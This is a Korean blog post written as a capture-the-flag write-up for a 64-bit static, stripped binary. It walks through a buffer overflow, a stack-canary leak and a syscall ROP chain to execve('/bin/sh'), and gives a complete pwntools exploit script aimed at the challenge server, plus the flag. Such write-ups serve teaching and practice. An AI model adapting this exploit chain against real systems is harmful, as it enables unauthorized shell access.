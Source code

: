 ```yaml
---
layout: post
title: 64bit srop write up
---
```


64비트 srop문제 라업

1. Binary

----------

![](https://lh3.googleusercontent.com/30jp43G1peSoaTKeRUwwDruSbj4XJPeXdRwlgoEQYvEM8t74hABaLQ7Q4WDndC1Lg2-E9BQp4O8OC0vYZPgorry0nXMVJLxgD9LXecK0zHWuh7E-SAZF1bJ3JgS7Cp2NbMG6ZENg)

이 바이너리는 ELF 64bit 파일입니다. static 컴파일이 되어 있었고, strip된 파일이였습니다.

static 컴파일과 strip이 되어있어서 분석이 어려웠지만 gdb로 흐름을 쫓으며 분석하였습니다.

2. Vulnerability

----------

메뉴 2. Edit message에서 message를 입력 받는데, 여기서 buffer overflow 취약점이 발생합니다.

![](https://lh4.googleusercontent.com/H-MRa7p21Sfj16r6UWCP2MjpzUMPzuZ5oYkht_fLMQtMFxwg0Fl84wgRW0G0BgSBTk0VF5pcbMGjCTOlaScz092GBhAOOiEWKYyG9txbLmaryCIApToHZjUBafx75bNfqiUHELnd)

세번째 인자인 edx 가 400으로 세팅 되어 있습니다. 이는 1024만큼 입력을 받을 수 있게 됩니다.

![](https://lh4.googleusercontent.com/ctjVB282zddqRF4IsuXfUfHozYMTmCx0QHQ22fE7D1EQn3_GSBLaKWIipt5h3ZwodEXIYtQ3M0y06fmZqkDnxU9cPp3WcE1RpHZecuIWxuWgnma01FRyk_-spAfRt1GVaTh-n5ST)

sys_input? 함수를 보면 eax를 0으로 세팅하고 syscall 하는 것을 볼 수 있습니다. 64비트에서 sys_read는 rax가 0으로 세팅되어있으면 호출 됩니다.

![](https://lh3.googleusercontent.com/tfVHbhAUepw4VzGzcN39FcCIvczecNigw48c509WBbZ3SczgkCY2t-2AOOE1NLZUb50jI10eYezeB_OhHzjz8VtCi3K4VaWvh3_6NNC7fbR6LRjzHn7rEN3n8ImHdsI0eWJPbtyt)

입력을 받는 v8변수는 bp - 0xd0 위치에 있으며 bp - 208 위치에 있습니다. 1024만큼 입력을 받을 수 있으니 bof가 가능합니다.

하지만 bp - 0x8 위치에 canary 변수가 있는 것을 확인 할 수 있었습니다. 하지만 이는 1. show 메뉴에서 leak이 가능했습니다.

3. exploit

----------

static 컴파일과 strip 이 되어있어서 일반적인 rop는 힘들어보였습니다. 다만 이 문제에서 syscall을 이용하기 때문에 관련된 정보를 공부하였고, syscall을 이용해 rop가 가능하다는 점을 알았습니다. canary가 활성화 되어있기 때문에 canary를 먼저 leak을 먼저 해준 다음, 다시 input에서 overflow로 rop해주면 되는 문제였습니다.

canary는 널바이트 + 7byte 이렇게 구성이 되는데, 1바이트를 overflow하면 문자열의 끝을 인식 못해 뒤에 바이트까지 leak이 됩니다.

syscall rop 같은 경우는 각 syscall rax number가 정해져있는데, 먼저 bss 영역에 “/bin/sh”을 적기 위해 인자 세팅 후 read(rax == 0) syscall; ret; 가젯으로 호출한뒤 chaining을 통해 rdi에 bss를 세팅하고 rsi에 0을 세팅 한 뒤 rax에는 execve의 rax number인 59를 세팅해 call 했습니다.

밑에는 exploit.py입니다.

>exploit.py

```python
from pwn import  *
#s = process("./rich")
s = remote("null2root.org", 1797)
e = ELF("./rich")
#context.log_level = 'debug'
gadget =  0x0045e395  # syscall ; ret
prdi =  0x00400535
prsi =  0x004017b7
prax =  0x0046dcb6  # pop rax ; pop rdx ; pop rbx ; ret
s.recvuntil("> ")
s.sendline("2")
s.recvuntil(": ")
leak_payload =  "A"*201
s.send(leak_payload)
s.recvuntil("> ")
s.sendline("1")
s.recvuntil("A"*201)
canary = u64("\x00"+s.recv(7))
log.success("canary : "+ hex(canary))
s.recvuntil("> ")
s.sendline("2")
s.recvuntil(": ")
payload =  "A"*200  + p64(canary)+"AAAAAAAA"
payload += p64(prdi)
payload += p64(0)
payload += p64(prsi)
payload += p64(e.bss())
payload += p64(prax)
payload += p64(0) + p64(0xff) + p64(0)
payload += p64(gadget)
payload += p64(prdi)
payload += p64(e.bss())
payload += p64(prsi)
payload += p64(0)
payload += p64(prax)
payload += p64(59) + p64(0) + p64(0)
payload += p64(gadget)
s.send(payload)
s.recvuntil("> ")
s.sendline("3")
s.recv()
s.send("/bin/sh\x00")
s.recv()
s.interactive()
```

![](https://lh3.googleusercontent.com/XnSyaezo4a0TPR0Q8EsAOcMO94Ui6efVoquawzhGbKUvS1SuVEc6MqmOE1QSLRS1DhEpptMjvTXyumtt96KpKBl6gDB0Yluo1LiXjb2WAnh01OHVbujpDNP6nt2QjFQ3uLxBt2Kf)

FLAG : n2r{enjoying_rich_rop_with_static_binary}

 


